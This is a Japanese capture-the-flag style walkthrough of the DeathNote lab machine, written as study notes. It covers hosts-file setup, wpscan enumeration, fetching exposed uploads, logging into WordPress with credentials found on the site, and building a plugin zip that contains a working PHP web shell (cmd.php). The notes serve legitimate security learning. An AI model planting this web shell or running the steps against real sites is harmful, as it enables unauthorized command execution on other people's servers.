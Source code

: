 ## DeathNote
### ポートスキャンまで同じ
- 22, 80

### Webサイトを見る
- IPアドレスでサイトを見るとdeathnote.vulnにリダイレクトされてサイトが見れないので、vimで以下のように書き換える
-  /etc/hostsを書き換える
  - `192.168.56.115  deathnote.vuln`
- ちなみにブラウザのリンクに直接`http://deathnote.vuln/wordpress/`を入力してもダメ 
- wordpressで作られているのがわかる
- サイトをよく見ると、`my fav line is iamjustic3`という言葉がある、これを訳すと何になる？

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
  - うまくいかなければ、ブラウザのhttpのとこのリンクをコピーしてくる
  - gobusterと異なりリンクを深く探す
- もしエラー出たら、updateなので一度ネットにつなげて更新する

### 興味深いURLにアクセスする
- `http://192.168.56.115/wordpress/wp-content/uploads`
  - こういうファイルが一覧で表示されるのをディレクトリリスティングと呼ぶ 
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`

### WordPressのユーザを列挙する
- `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`

### wordpressのログイン画面でログインを試みる
- `http://deathnote.vuln/wordpress/wp-login.php`
- user(kira),password(iamjustic3)はサイトに書いてあるので探してダッシュボードにログイン

### 404.phpに書き込んでリバースシェルする
- ハッキングラボ11でもやった、404.phpに書き込んでやるのをやってみるがfileのuploadができないので、ここでは使えない。その他のユーザの権限は`r-x`だがuploadの時点でフィルタがかかっているようになっている

### バックドア(実際は常時使えるリバースシェル)の設置を目指す
- なぜzipファイルをpluginすれば、リバースシェルできるのか謎。本には何も書いていない。searchsploitで見てもない
- banner.php
```
<?php
/*
Plugin Name: PHP Web Shell
Version: 1.0.0
Author: evil user
Author URI: http://hacking.lab
*/
?>
```
- cmd.php
```
<?php
echo system($_REQUEST['cmd']);
?>
```
- `ls`
  - `banner.php cmd.php` この２つのファイルがあるのを確認
- `zip evil banner.php cmd.php`
  - `evil`ができている     
